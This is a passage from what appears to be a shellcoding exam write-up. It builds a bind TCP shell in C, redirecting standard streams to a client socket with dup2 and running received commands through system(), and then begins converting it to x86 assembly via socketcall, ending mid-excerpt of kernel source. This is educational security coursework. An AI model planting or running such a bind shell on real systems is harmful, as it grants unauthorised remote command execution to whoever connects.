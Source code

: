 I used `dup2` in order to redirect `stdin`, `stdout`, and `stderr` of the current shell towards the client socket, so it acts as an interactive shell.

What's missing now is the code that executes the commands sent by the client:

```cpp
char client_command[1024] = {0};

char *const parmList[] = {"/bin/sh", "-c", client_command, NULL};
char *const envParms[] = {NULL};

// receive data from client (max 1024 bytes)
while ((bytes_read = recv(client_socket_fd, &amp;client_command, 1024, 0)) > 0) {
    // execute client command
    system(client_command);
    memset(client_command, 0, sizeof(client_command));
}
```

The loop right above checks if the client has sent any data. If so, it executes the command and sends `input`/`output`/`error` to the client socket.

Finally, it uses the function `memset` to clear the buffer that stores the command, in order to avoid previous commands from corrupting next ones.

The full C program can be found inside the [repo created for this exam](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/1/attempt/first/shell_bind_tcp.c).

### Assembly

#### Socket Creation

The first function we need to convert into Assembly is `socket`. Unfortunately, there isn't a specific syscall that creates a socket, although there is one named `socketcall`. Follows an excerpt taken from its [man page](https://linux.die.net/man/2/socketcall):

> `int socketcall(int call, unsigned long *args);`
> `socketcall()` is a common kernel entry point for the socket system calls. *call* determines which socket function to invoke. `args` points to a block containing the actual arguments, which are passed through to the appropriate call.


Based on this description and the function prototype, it seems we first need to find the right `call` value that references `socket()`. Although man pages don't list all the possible values for this argument (please contact me if you find them inside the man pages), we can take a look at the source code of the Linux kernel.
To be more specific, [this page](https://github.com/torvalds/linux/blob/master/net/socket.c#L2901) contains the implementation of the `socketcall` function, listing several possible value for the argument `call`:

```cpp
// ...

switch (call) {

  case SYS_SOCKET:
    err = __sys_socket(a0, a1, a[2]);
    break;

  case SYS_BIND:
    err = __sys_bind(a0, (struct sockaddr __user *)a1, a[2]);
    break;

  case SYS_CONNECT:
    err = __sys_connect(a0, (struct sockaddr __user *)a1, a[2]);
    break;

  case SYS_LISTEN:
```